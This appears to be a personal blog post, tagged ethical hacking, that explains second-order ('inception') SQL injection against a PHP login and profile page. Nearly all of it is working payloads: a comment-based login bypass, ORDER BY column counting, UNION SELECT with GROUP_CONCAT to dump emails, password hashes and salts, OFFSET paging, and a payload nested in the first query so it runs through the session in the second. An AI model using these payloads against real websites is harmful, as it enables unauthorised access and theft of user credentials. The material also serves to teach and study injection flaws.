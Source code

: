 ```yaml
---
layout: post
title: "Nested SQL Injections"
language: "sql"
tags:
- sql-injection
- ethical-hacking
---
```

I recently did something along this line, and this technique is really cool. (I prefer to call it "inception" injection). Its pretty easy once you figure it out, so here it goes.

If the result of the first query is used as an input in the second query, and the first query is vulnerable, we can use the output as a "input variable" into the second query itself. This would be useful in places where the second query has a better display method than the first one (for instance length restrictions).

##Query 1:

{% highlight sql %}
SELECT * FROM users WHERE email='$email' AND password = '$pass'
{% endhighlight sql %}

This query is usually accompanied with:

{% highlight php %}
<?php
$_SESSION['email'] = $row['username'];
{% endhighlight php %}

##Query 2:

Assuming something like a profile page:
{% highlight sql %}
SELECT * FROM user_details WHERE email='{$_SESSION['email']}'
{% endhighlight sql %}
#Injection

Injecting the first query (basic)

{% highlight sql %}
SELECT * FROM users WHERE email='user@email.com' # AND password=''
{% endhighlight sql %}

Everything after # should be treated as a comment. Hence forward, I would not write stuff after # for brevity.

Thinking backwards, we could create a custom query for user_details:

{% highlight sql %}
SELECT * FROM user_details WHERE email='' UNION SELECT * FROM user_details #
{% endhighlight sql %}

This would show the details of the first user in the profile page. Let's think a bit larger:

{% highlight sql %}
SELECT * FROM user_details WHERE email='' UNION SELECT GROUP_CONCAT(email), GROUP_CONCAT(password) FROM user_details #
{% endhighlight sql %}

Usually, this won't work (different number of columns in results). You'd have to use ORDER BY to guess the number of columns. Writing only the `UNION` part now:

{% highlight sql %}
UNION SELECT * FROM user_details ORDER BY 1 #
UNION SELECT * FROM user_details ORDER BY 2 #
UNION SELECT * FROM user_details ORDER BY 3 #
UNION SELECT * FROM user_details ORDER BY 4 # -- Gives Error
{% endhighlight sql %}

So we realize that user_details has 3 columns. Coming back, we could do:

{% highlight sql %}
UNION SELECT GROUP_CONCAT(email), GROUP_CONCAT(password), 3 FROM users #
{% endhighlight sql %}

That would give us details upto 1000 characters (GROUP_CONCAT limits). To mitigate those limits:

{% highlight sql %}
UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0)
{% endhighlight sql %}	

Change the OFFSET and you're ready to roll.

##Inception Injection

This was all a theoritical attack on the second query. Granted you could do lots of stuff from here on the first query, but it is far less responsive (Doesn't give much output). The only thing you can modify is the email, which offers you a single field. 

However, the only attack vector (`$_SESSION`) for the second query is not directly controlled, but comes instead from the result of the first query. So to perform this attack on the second query, we take the second injection, and use it inside the first one.

{% highlight sql %}
SELECT * FROM users WHERE email='' UNION SELECT * FROM users # -- will give us first user
SELECT * FROM users WHERE email='' UNION SELECT * FROM users  ORDER BY 1 # -- keep increasing to get number of columns
SELECT * FROM users WHERE email='' UNION SELECT 1,2,3 FROM users # -- This would let us know which column corresponds to the email id
SELECT * FROM users WHERE email='' UNION SELECT "<inject second query here>",2,3 FROM users # -- This would let us know which column corresponds to the email id
{% endhighlight sql %}	

Although we have been writing injection code starting with UNION, it actually would start with ' UNION... Using our last injection code for the second query here, it becomes:

{% highlight sql %}
SELECT * FROM users WHERE email='' UNION SELECT "' UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0) #",2,3 FROM users #
{% endhighlight sql %}	

What happens on the server side:

{% highlight php %}
<?php
	$_SESSION['email'] = "' UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0) #"
{% endhighlight php %}	

and the second query becomes:

{% highlight sql %}
SELECT * FROM user_details WHERE email='' UNION SELECT GROUP_CONCAT(email),GROUP_CONCAT(password),GROUP_CONCAT(salt) FROM (SELECT email,password,salt FROM users LIMIT 50 OFFSET 0) #
{% endhighlight sql %}	

Note that we still have to keep a # at the end of the inner query. There are portions after # which we still need to discard. Feel free to contact me if you have any further doubts. I am sure this is a well-known and used by people already, but this was something new to me.
